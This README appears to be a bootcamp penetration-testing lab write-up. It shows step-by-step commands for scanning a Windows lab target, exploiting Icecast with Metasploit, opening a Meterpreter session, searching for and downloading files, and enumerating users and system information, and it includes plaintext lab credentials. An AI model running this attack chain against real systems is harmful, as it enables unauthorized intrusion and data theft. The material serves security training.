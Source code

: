 # Penetration-Test-Engagement
This activity allowed me to play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.
- The CEO claims to have passwords that are long and complex and therefore unhackable.
- I was tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.
- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 
- To begin, start the Icecast server to emulate the CEO's computer. 
- Then log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
- Then click `Start Server`. 
 
#### Scope
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
- Attacking machine: Kali Linux <!--root:toor -->
- Target machine: DVW10 <!--IEUser:Passw0rd!-->

#### Deliverable
Once you complete this assignment, submit your findings in the following document: 

- [Report.docx]( Report.docx)
 
### Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:
<!-- Run the Nmap command that performs a service and version scan against the target.-->
      > command: nmap -sV 192.168.0.20
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture1.png)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
  <!-- - Run the SearchSploit commands to show available Icecast exploits.-->
     > command: searchsploit icecast
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture2.png)

3. Now that we know which exploits are available to us, let's start Metasploit: 
<!-- Run the command that starts Metasploit:-->
     > command: msfconsole

4. Search for the Icecast module and load it for use.
<!-- - Run the command to search for the Icecast module: -->
     > command: search icecast
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture3.png)

<!-- - Run the command to use the Icecast module:-->
     > command: use exploit/windows/http/icecast_header
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture4.png)

5. Set the `RHOST` to the target machine. 
<!--   - Run the command that sets the `RHOST`:-->
     > command: set RHOSTS 192.168.0.20
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture5.png)

6. Run the Icecast exploit.
<!--  - Run the command that runs the Icecast exploit.-->
     > command: run
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture6.png)

<!--   - Run the command that performs a search for the `secretfile.txt` on the target -->
     > command: search –f  \*secretfile\*
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture7.png)

 7. You should now have a Meterpreter session open.
   <!-- - Run the command to performs a search for the `recipe.txt` on the target:-->
      > command: search –f  \*recipe\*
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture8.png)

**Bonus**: Run the command that exfiltrates the `recipe*.txt` file:
      > command:  download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture9.png)


8. You can also use Meterpreter's local exploit suggester to find possible exploits.
<!--  - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.-->
      > command:  run post/multi/recon/local_exploit_suggester
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture10.png)

 
#### Bonus
A. Run a Meterpreter post script that enumerates all logged on users.
      > command: run post/windows/gather/enum_logged_on_users
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture11.png)

B. Open a Meterpreter shell and gather system information for the target.
      > command: shell
      > command: ipconfig –all
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture12.png)

C. Run the command that displays the target's computer system information:
      > command: systeminfo
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture13.png)

---
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

